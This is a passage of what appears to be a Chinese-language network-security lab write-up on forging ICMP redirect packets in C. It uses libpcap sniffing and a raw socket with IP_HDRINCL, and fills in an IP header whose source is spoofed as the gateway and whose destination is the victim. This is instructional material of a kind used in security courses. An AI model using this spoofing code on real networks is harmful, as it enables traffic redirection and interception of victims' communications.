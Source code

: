       ```c
      /** 
       * pcap_loop()的回调函数
       * params: u_char *args, const struct pcap_pkthdr *header,  const u_char *packet
       * (arg-pcap-loop的最后一个参数，pkthdr-pcap头包含何时嗅探数据包的信息和大小，packet-数据包）
       * return: void
      **/
      void got_packet(__u_char *arg, const struct pcap_pkthdr *pkthdr, const __u_char *packet)
      {
          int sockfd; //socket描述符
          const int on = 1;
          /** 
           * socket 创建套接字
           * params: int domain, int type, int protocol
           * (AF_INET-IPv4网络通信, SOCK_RAW-原始套接字类型, IPPROTO_ICMP-第三层通信协议）
           * return: void
          **/
          if ((sockfd = socket(AF_INET, SOCK_RAW, IPPROTO_ICMP)) < 0)
          {
              printf("create sockfd error\n");
              exit(-1);
          }
          /** 
           * 开启IP_HDRINCL选项，由我们自己填充头部
           * params: sockfd, IPPROTO_IP, IP_HDRINCL, void *, socklen_t
           * (sockfd-套接字描述符, IPPROTO_IP-类型为IPv4套接字, IP_HDRINCL-由我们自己填充IP头部, &on-指向要设置的新值的缓冲区, sizeof(int)-新值大小）
           * return: -1/other
          **/
          if (setsockopt(sockfd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(int)) < 0)
          {
              printf("set socket option error\n");
              exit(-1);
          }
          // 自己的ping程序
          icmp_redirect(sockfd, packet, 0);
      }
      ```

      

   4. 在回调函数`got_packet`中调用函数`icmp_redirect`发送自己构建的redirect包

      ```c
      icmp_redirect(sockfd, packet, 0);
      ```

      

   5. 手动填充ip头部

      ```c
          //填充ip头
          packet.ip.version = 4; //版本号
          packet.ip.ihl = 5; //header length
          packet.ip.tos = 0; //服务类型
          packet.ip.tot_len = htons(56); //总长度
          packet.ip.id = getpid(); //标识
          packet.ip.frag_off = 0; //分片标志
          packet.ip.ttl = 255; //生存时间
          packet.ip.protocol = IPPROTO_ICMP; //协议
          packet.ip.check = 0; //首部检校和
          packet.ip.saddr = inet_addr(GATEWAY_IP); // 源地址伪造为网关
          packet.ip.daddr = inet_addr(TARGET_IP);  //目的地址将伪造重定向包发给受害者的地址
      ```
